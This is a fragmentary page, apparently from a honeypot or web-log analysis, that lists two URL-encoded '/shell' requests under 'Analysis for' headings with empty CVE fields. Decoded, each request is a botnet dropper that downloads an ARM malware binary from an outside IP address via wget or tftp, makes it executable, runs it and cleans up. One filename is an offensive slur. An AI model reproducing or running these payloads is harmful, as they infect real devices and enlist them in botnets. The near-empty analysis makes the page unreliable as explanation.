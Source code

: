 # Analysis for /shell%3Fcd%20%2Ftmp%3B%20echo%20%3ENiGGea%20%7C%7C%20cd%20%2Fvar%3B%20echo%20%3ENiGGea%3B%20cp%20%2Fbin%2Fbusybox%20yee%3B%20%3Eyee%3B%20chmod%20777%20yee%3B%20nohup%20wget%20http%3A%2F%5C%2F87.121.98.34%3A80%2Fillz%2Fmegumi.arm7%20-O%20yee%20%7C%7C%20nohup%20tftp%20-r%20megumi.arm7%20-g%2087.121.98.34%3A80%20-l%20yee%3B%20chmod%20777%20yee%3B.%2Fyee%3B%20rm%20-rf%20yeeter%20%3E%2Fdev%2Fnull%202%3E%261
## CVE: # Analysis for /shell%3Fcd%20%2Ftmp%3B%20echo%20%3ENiGGea%20%7C%7C%20cd%20%2Fvar%3B%20echo%20%3ENiGGea%3B%20cp%20%2Fbin%2Fbusybox%20yee%3B%20%3Eyee%3B%20chmod%20777%20yee%3B%20nohup%20wget%20http%3A%2F%5C%2F87.121.98.34%3A80%2Fillz%2Fmegumi.arm4%20-O%20yee%20%7C%7C%20nohup%20tftp%20-r%20megumi.arm4%20-g%2087.121.98.34%3A80%20-l%20yee%3B%20chmod%20777%20yee%3B.%2Fyee%3B%20rm%20-rf%20yeeter%20%3E%2Fdev%2Fnull%202%3E%261
## CVE: 